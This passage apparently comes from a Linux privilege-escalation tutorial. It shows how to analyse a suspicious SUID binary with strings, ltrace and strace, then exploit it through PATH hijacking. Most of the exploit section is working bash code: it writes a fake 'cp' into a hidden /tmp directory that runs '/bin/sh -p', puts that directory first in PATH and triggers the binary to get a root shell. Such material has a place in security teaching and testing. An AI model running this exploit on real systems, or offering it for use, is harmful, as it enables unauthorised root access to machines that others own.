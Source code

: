 Assume you identify a suspicious SUID binary, e.g. /usr/local/bin/backup.

```bash
BIN="/usr/local/bin/backup"
ls -la "$BIN"
file "$BIN"
```

### 2) Static and dynamic analysis
```bash
# Static strings to look for commands, system(), config paths, etc.
strings -a "$BIN" | less

# Library call trace: reveals system() and the commands passed to it
ltrace -s 2048 -o /tmp/ltrace.log "$BIN"
grep -iE 'system|popen' /tmp/ltrace.log

# Syscall trace: reveals execve/open and exact absolute paths if used
strace -f -o /tmp/strace.log "$BIN"
grep -iE 'execve|openat|access' /tmp/strace.log | tail -n 50
```

Key things to spot:
- Calls like system("cp …"), system("tar …"), system("cat …") without full paths (no /bin/cp).
- Use of wildcards like tar czf backup.tgz *.
- Attempted reads/writes to files you control.

### 3) Exploit: PATH hijacking (unqualified command in SUID program)
If strace/ltrace show an unqualified command (e.g., cp, tar, cat), hijack PATH so your malicious binary is executed with root’s effective UID.

```bash
# Pick the command you saw the program call without an absolute path.
# Example: 'cp' was called as just "cp" (bad).
TARGET_CMD="cp"

# Prepare a writable directory for your payload
WRK="/tmp/.pwn"
mkdir -p "$WRK"

# Malicious replacement that spawns a root shell with preserved privileges (-p)
cat > "$WRK/$TARGET_CMD" << 'EOF'
#!/bin/sh
exec /bin/sh -p
EOF
chmod +x "$WRK/$TARGET_CMD"

# Prepend our directory to PATH so the SUID program resolves our payload first
export PATH="$WRK:$PATH"
which "$TARGET_CMD"   # should point to /tmp/.pwn/cp (or equivalent)

# Trigger the SUID binary; if vulnerable, you get a root shell
"$BIN"
id
```
